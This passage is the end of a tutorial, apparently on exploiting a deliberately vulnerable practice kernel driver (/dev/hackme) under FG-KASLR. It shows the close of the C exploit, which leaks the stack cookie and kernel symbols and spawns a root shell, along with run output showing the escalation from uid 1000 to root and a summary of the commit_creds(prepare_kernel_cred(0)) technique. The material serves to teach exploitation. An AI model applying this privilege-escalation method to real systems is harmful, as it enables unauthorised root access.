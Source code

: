     write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");

}

void shell(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
    exit(0);
}


int main(int argc, char **argv){
    open_dev();
    save_state();
    leak_cookie();
    stage1();
    return 0;
}
{% endhighlight %}

Executing the code looks as follows.

```
/ $ id
uid=1000 gid=1000 groups=1000
/ # ./exploit_fgkaslr
[+] successfully opened /dev/hackme
[*] Saved state
[*] trying to leak up to 320 bytes memory
[+] leaked cookie: 0xc2f94f03356f4600
[+] leaked kernel_base 0xffffffff86e00000
[+] leaked ksymtab_prepare_kernel_cred 0xffffffff87d8d4fc
[+] leaked ksymtab_commit_creds 0xffffffff87d87d90
[+] leaked commit_creds 0xffffffff874ef630
[+] leaked prepare_kernel_cred 0xffffffff8791bd70
[+] returned creds_struct 0xffff93cd472e1780
[+] we are root (uid = 0)
```

# Conclusion/Summary
That was a long article. Congrats if you made it this far. If you
skipped some parts, or forgot the start of the article, here are the
most important points, that should stick with you.

In general, in kernel space you cannot pop shellcode. You want to
execute `commit_creds(prepare_kernel_cred(0))` and return back to user
space. This gives you an elevated prompt.
